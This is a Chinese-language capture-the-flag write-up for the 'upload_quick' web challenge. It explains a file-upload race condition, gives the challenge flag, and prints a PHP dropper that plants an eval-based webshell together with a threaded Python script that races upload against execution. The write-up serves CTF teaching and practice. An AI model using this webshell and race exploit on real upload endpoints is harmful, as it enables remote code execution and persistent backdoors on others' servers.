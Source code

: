 - **题目名称：** upload_quick
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** fru1ts
- **考点：** 

1. 文件上传
2. 条件竞争

- **描述：** newnew的逻辑不太对，只要你够快
- **flag：** `XSCTF{fi1e_Upl00000000ad_int1r1s7ing_491346}`
- **Writeup：** 

1.获取页面源码（3种方法）：

- `view-source:url`
- 打开开发者工具（不要用快捷键，已经锁死）
- burpsuit

在`EasePack.min.js`找到提示：`you find me, good luck for you! Now go to Upl00000000ad.php`

2.访问`/Upl00000000ad.php`进行文件上传。通过尝试发现文件成功传上去，然后非图片的后缀再被改成`.jpg`，所以可以通过条件竞争在被修改后缀前上传`websehll`。

思路：使用两个线程，一个线程上传php文件，另一个线程访问传上去的php使之执行。

为了留下稳定的后门，在上传的php里面写一个创建后门文件

```php
#a.php
<?php
fputs(fopen("shell.php","w"),'<?php @eval($_POST["cmd"]);?>');
?>
```

exp

```python
import requests
import threading

url = ''


def POST1():
    for i in range(1000):
        filename = 'a.php'
        file = {"upload_file": open(filename, "rb")}
        r = requests.post(url=url + 'Upl00000000ad.php', data={'submit': 'True'}, files=file)

        print(r.text)


def POST2():
    for i in range(1000):
        r = requests.get(url=url + 'uploads/a.php')
        if r.status_code == 200:
            print('ok')
        print(r)


threading.Thread(target=POST1).start()
threading.Thread(target=POST2).start()

```

蚁剑连接`url/uploads/shell.php`

